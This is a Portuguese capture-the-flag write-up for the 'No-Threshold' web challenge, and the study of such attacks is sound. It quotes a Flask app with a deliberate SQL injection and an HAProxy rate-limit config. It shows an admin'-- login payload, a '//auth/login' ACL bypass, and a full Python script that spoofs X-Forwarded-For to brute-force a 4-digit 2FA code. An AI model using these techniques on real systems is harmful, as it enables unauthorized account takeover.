


# No-Threshold

> Prepare-se para os mais finos produtos mágicos que existem. Entretanto, esteja ciente de que implementamos um feitiço protetivo em nossa aplicação para proteger de qualquer bruxaria contra nosso web shop. 🔮 🎩

A descrição desse desafio não nos diz muito, exceto que existem medidas de segurança protegendo a aplicação.

## Reconhecimento

Acessando a página, percebemos que a aplicação é um simples shopping em que é preciso fazer login para comprar algo.

<figure><figcaption><p>No-Threshold - Página inicial</p></figcaption></figure>

Ao tentar acessar a funcionalidade de login, entretanto, a aplicação responde com um erro e não permite. Vamos partir para a análise do código-fonte.


```python
from app.blueprints.dashboard import *
from app.blueprints.index import *
from app.blueprints.login import *
from app.blueprints.verify2fa import *
from app.config import Config
from flask import Flask

# Cria uma instância do Flask
app = Flask(__name__)

# Configura a chave secreta da aplicação a partir da configuração
app.config["SECRET_KEY"] = Config.SECRET_KEY

# Registra os blueprints na aplicação Flask
app.register_blueprint(index_bp)  # Registra o blueprint para a rota principal
app.register_blueprint(dashboard_bp)  # Registra o blueprint para o dashboard
app.register_blueprint(
    login_bp, url_prefix="/auth"
)  # Registra o blueprint para login com prefixo de URL "/auth"
app.register_blueprint(
    verify2fa_bp, url_prefix="/auth"
)  # Registra o blueprint para verificação 2FA com prefixo de URL "/auth"
```


No código acima, são definidas as rotas da aplicação. Perceba que é possível notar uma funcionalidade de login, uma de autenticação em 2 fatores e outra de dashboard. Interessante, não?


```python
import random
import string

import uwsgi
from app.database import *
from flask import Blueprint, jsonify, redirect, render_template, request

# Cria um blueprint para o módulo de login
login_bp = Blueprint("login", __name__, template_folder="templates")

# Função para definir o código de 2FA (autenticação de dois fatores)
def set_2fa_code(d):
    # Remove qualquer código de 2FA existente do cache
    uwsgi.cache_del("2fa-code")
    # Gera um novo código de 2FA composto por dígitos aleatórios e o armazena no cache por 5 minutos
    uwsgi.cache_set(
        "2fa-code",
        "".join(random.choices(string.digits, k=d)),
        300,  # válido por 5 minutos
    )

# Rota para a página de login, aceita métodos GET e POST
@login_bp.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "POST":
        # Obtém o nome de usuário e a senha do formulário de login
        username = request.form.get("username")
        password = request.form.get("password")

        # Verifica se o nome de usuário ou a senha estão vazios
        if not username or not password:
            return render_template(
                "public/login.html", error_message="Username or password is empty!"
            ), 400

        try:
            # Consulta o banco de dados para verificar as credenciais do usuário
            user = query_db(
                f"SELECT username, password FROM users WHERE username = '{username}' AND password = '{password}'",
                one=True,
            )

            # Verifica se o usuário não foi encontrado
            if user is None:
                return render_template(
                    "public/login.html", error_message="Invalid username or password"
                ), 400

            # Define o código de 2FA com 4 dígitos
            set_2fa_code(4)

            # Redireciona o usuário para a página de verificação de 2FA
            return redirect("/auth/verify-2fa")
        finally:
            # Fecha a conexão com o banco de dados
            close_db()

    # Renderiza a página de login para métodos GET
    return render_template("public/login.html")
```


Nesse código já possível notar uma falha de SQL injection, pois a entrada do usuário é inserida diretamente na consulta, além de apresentar a função responsável por gerar o código de autenticação de 2 fatores. Perceba que nenhuma atribuição relaciona o código OTP com o usuário, ele apenas é armazenado em cache. Já pode-se ter uma noção de qual ponto deve ser explorado na aplicação.


```python
import uwsgi
from flask import Blueprint, jsonify, redirect, render_template, request, session

# Cria um blueprint para o módulo de verificação 2FA
verify2fa_bp = Blueprint("verify2fa", __name__, template_folder="templates")


# Decorador para verificar se o código de 2FA existe no cache
def requires_2fa(func):
    def wrapper(*args, **kwargs):
        # Verifica se o código de 2FA está presente no cache
        if uwsgi.cache_exists("2fa-code"):
            return func(*args, **kwargs)
        else:
            # Redireciona para a página de login se o código de 2FA não estiver presente
            return redirect("/auth/login")

    return wrapper


# Rota para a verificação de 2FA, aceita métodos GET e POST
@verify2fa_bp.route("/verify-2fa", methods=["GET", "POST"])
@requires_2fa  # Aplica o decorador requires_2fa para verificar a existência do código de 2FA
def verify():
    if request.method == "POST":
        # Obtém o código de 2FA do formulário
        code = request.form.get("2fa-code")

        # Verifica se o código de 2FA está vazio
        if not code:
            return render_template(
                "private/verify2fa.html", error_message="2FA code is empty!"
            ), 400

        # Obtém o código de 2FA armazenado no cache
        stored_code = uwsgi.cache_get("2fa-code").decode("utf-8")

        # Compara o código fornecido com o código armazenado
        if code == stored_code:
            # Remove o código de 2FA do cache após a verificação bem-sucedida
            uwsgi.cache_del("2fa-code")
            # Marca a sessão como autenticada
            session["authenticated"] = True
            # Redireciona para o dashboard
            return redirect("/dashboard")
        else:
            # Retorna uma mensagem de erro se o código de 2FA for inválido
            return render_template(
                "private/verify2fa.html", error_message="Invalid 2FA Code!"
            ), 400

    # Renderiza a página de verificação de 2FA para métodos GET
    return render_template("private/verify2fa.html")

```


O código acima define a rota que valida o código de autenticação em 2 fatores. Ele apenas compara o código informado com o código armazenado em cache, e caso seja válido, redireciona o usuário para o `dashboard`, onde a _flag_ é exibida:

<pre class="language-html" data-title="challenge/templates/private/dashboard.html" data-overflow="wrap" data-line-numbers><code class="lang-html">...SNIP
&#x3C;div class="container">
<strong>    &#x3C;div class="content">
</strong>        Welcome, here is your flag: &#x3C;b> {{ flag }} &#x3C;/b>
    &#x3C;/div>
&#x3C;/div>
SNIP...
</code></pre>

Com isso, sabemos que basta se autenticar e acessar o `dashboard` para obter a flag. O desafio, porém, informou na descrição que implementaram medidas de proteção, as quais podemos analisar agora.

## Exploração

Analisando o código-fonte informado, percebe-se que a aplicação está utilizando o [HAProxy](https://www.haproxy.org/), um balanceador de carga com recursos bem interessantes de [Access Control List (ACL)](https://www.fortinet.com/br/resources/cyberglossary/network-access-control-list). Seu arquivo de configuração definiu as seguintes regras:


```
global
    daemon
    maxconn 256

defaults
    mode http
    option forwardfor

    timeout connect 5000ms
    timeout client 50000ms
    timeout server 50000ms

frontend haproxy
    bind 0.0.0.0:1337
    default_backend backend

    # Parse the X-Forwarded-For header value if it exists. If it doesn't exist, add the client's IP address to the X-Forwarded-For header. 
    http-request add-header X-Forwarded-For %[src] if !{ req.hdr(X-Forwarded-For) -m found }
    
    # Apply rate limit on the /auth/verify-2fa route.
    acl is_auth_verify_2fa path_beg,url_dec /auth/verify-2fa

    # Checks for valid IPv4 address in X-Forwarded-For header and denies request if malformed IPv4 is found. (Application accepts IP addresses in the range from 0.0.0.0 to 255.255.255.255.)
    acl valid_ipv4 req.hdr(X-Forwarded-For) -m reg ^([01]?[0-9][0-9]?|2[0-4][0-9]|25[0-5])\.([01]?[0-9][0-9]?|2[0-4][0-9]|25[0-5])\.([01]?[0-9][0-9]?|2[0-4][0-9]|25[0-5])\.([01]?[0-9][0-9]?|2[0-4][0-9]|25[0-5])$
    
    http-request deny deny_status 400 if is_auth_verify_2fa !valid_ipv4

    # Crate a stick-table to track the number of requests from a single IP address. (1min expire)
    stick-table type ip size 100k expire 60s store http_req_rate(60s)

    # Deny users that make more than 20 requests in a small timeframe.
    http-request track-sc0 hdr(X-Forwarded-For) if is_auth_verify_2fa
    http-request deny deny_status 429 if is_auth_verify_2fa { sc_http_req_rate(0) gt 20 }

    # External users should be blocked from accessing routes under maintenance.
    http-request deny if { path_beg /auth/login }

backend backend
    balance roundrobin
    server s1 0.0.0.0:8888 maxconn 32 check
```


Perceba que no arquivo de configuração são definidas regras de [limitação](https://www.cloudflare.com/pt-br/learning/bots/what-is-rate-limiting/) por IP através do cabeçalho `X-Forwarded-For`. Caso esse cabeçalho não seja informado na requisição, ele é incluído pela aplicação com base no IP que está fazendo a requisição. Além disso, é definida um regra que impede o acesso à URL que inicie com `/auth/login`. Para contornar essa última regra, podemos utilizar de um [path traversal](https://www.infosec.com.br/path-traversal/) ou simplesmente adicionar uma barra antes da URL, resultando em `//auth/login`, e a aplicação irá autorizar. Com isso, já podemos acessar a funcionalidade de login.

<figure><figcaption><p>No-Threshold - Página de login</p></figcaption></figure>

Perceba que a aplicação autoriza a requisição ao inserir uma barra adicional no início da URL. Interceptando a requisição de login, inserindo o nome de usuário como `admin'--` e qualquer valor como senha, é possível enviar a requisição como o usuário administrador, gerando um código de autenticação válido por 5 minutos. A partir disso, basta apenas contornar a limitação por IP com um ataque de força bruta para validar o código de autenticação e obter a flag.

## Prova de Conceito

Agora que sabemos quais ações o _exploit_ deve realizar, podemos usar Python para desenvolver um script e automatizar o processo.


```python
from concurrent.futures import ThreadPoolExecutor
from random import randrange

from bs4 import BeautifulSoup
from requests import Response, Session, adapters

url = "http://127.0.0.1:1337"
hosts = []


def random_host() -> str:
    """
    Gera um endereço IP de host aleatório.

    Se houver hosts existentes, verifica o último host na lista. Se o
    último host foi usado 20 vezes ou menos, incrementa a contagem de uso
    e retorna o endereço IP do host. Caso contrário, gera um novo endereço
    IP aleatório.

    O novo endereço IP é gerado no formato 'X.X.X.X', onde X é um
    número aleatório dentro do intervalo especificado. Se o endereço IP
    gerado não estiver já na lista de hosts, adiciona o novo host com uma
    contagem de uso de 0 e retorna o endereço IP. Se o endereço IP gerado
    já estiver na lista, chama a si mesmo recursivamente para gerar um novo
    endereço IP.

    Retorna:
        str: Um endereço IP de host aleatório ou existente.
    """
    if len(hosts) > 0:  # Se houver hosts existentes
        last_host = hosts[-1]  # Obtém o último host na lista
        if last_host[1] <= 20:  # Se o último host foi usado 20 vezes ou menos
            hosts[-1] = (last_host[0], last_host[1] + 1)  # Incrementa a contagem de uso
            return last_host[0]  # Retorna o endereço IP do host
    # Caso contrário, gera um novo endereço IP aleatório
    host = f"{randrange(0, 224)}.{randrange(0, 255)}.{randrange(0, 255)}.{randrange(0, 255)}"
    # Se o endereço IP gerado não estiver na lista de hosts
    if host not in hosts:
        hosts.append((host, 0))  # Adiciona o novo host com uma contagem de uso de 0
        return host  # Retorna o endereço IP do host
    # Caso contrário, chama a si mesmo recursivamente para gerar um novo endereço IP único
    else:
        random_host()


def request_otp(session: Session) -> Response:
    """
    Envia uma solicitação POST para o endpoint de login para solicitar uma senha única (OTP).

    Argumentos:
        session (Session): O objeto de sessão do requests para manter a sessão.

    Retorna:
        Response: O objeto de resposta da solicitação POST.
    """
    return session.post(
        f"{url}//auth/login",  # URL do endpoint de login
        data={"username": "admin'--", "password": "admin"},  # Injetando SQL malicioso
        # proxies={"http": "http://127.0.0.1:8080"}, # Configuração do proxy (para testes)
    )


def send_otp_code(session: Session, code: str) -> Response:
    """
    Envia um código de senha única (OTP) para o servidor para verificação.

    Argumentos:
        session (Session): O objeto de sessão do requests a ser usado para fazer a solicitação HTTP.
        code (str): O código OTP a ser enviado para verificação.

    Retorna:
        Response: O objeto de resposta HTTP retornado pelo servidor após tentar verificar o código OTP.
    """
    # Adiciona o cabeçalho 'X-Forwarded-For' com um endereço IP de host aleatório
    session.headers.update({"X-Forwarded-For": random_host()})
    return session.post(
        f"{url}//auth/verify-2fa",  # URL do endpoint de verificação de 2FA
        data={"2fa-code": code},  # Envia o código de 2FA para verificação
        # proxies={"http": "http://127.0.0.1:8080"}, # Configuração do proxy (para testes)
    )


if __name__ == "__main__":
    with Session() as session:
        # Aumenta o tamanho do pool de conexões para 100 para enviar solicitações HTTP em paralelo
        adapter = adapters.HTTPAdapter(pool_maxsize=100)
        # Adiciona o adaptador personalizado ao objeto de sessão
        session.mount("http://", adapter)
        # Envia uma solicitação POST para o endpoint de login para solicitar uma senha única (OTP)
        request_otp(session=session)
        # Envia códigos de 2FA de 0000 a 9999 em paralelo para verificar o código correto através
        with ThreadPoolExecutor(max_workers=100) as executor:
            futures = [
                executor.submit(send_otp_code, session, str(code).zfill(4))
                for code in range(0, 9999 + 1)
            ]
            for future in futures:
                # Obtém o objeto de resposta da solicitação HTTP
                response = future.result()
                # Verifica se o código de 2FA foi verificado com sucesso
                if response.status_code == 200:
                    # Analisa o conteúdo da página para obter a flag
                    soup = BeautifulSoup(response.text, "html.parser")
                    flag = [
                        div
                        for div in soup.find_all("div")
                        if div.get("class") == ["content"]
                    ]
                    # Imprime a flag se encontrada e interrompe o loop
                    print(flag[0].text.strip())
                    break
```

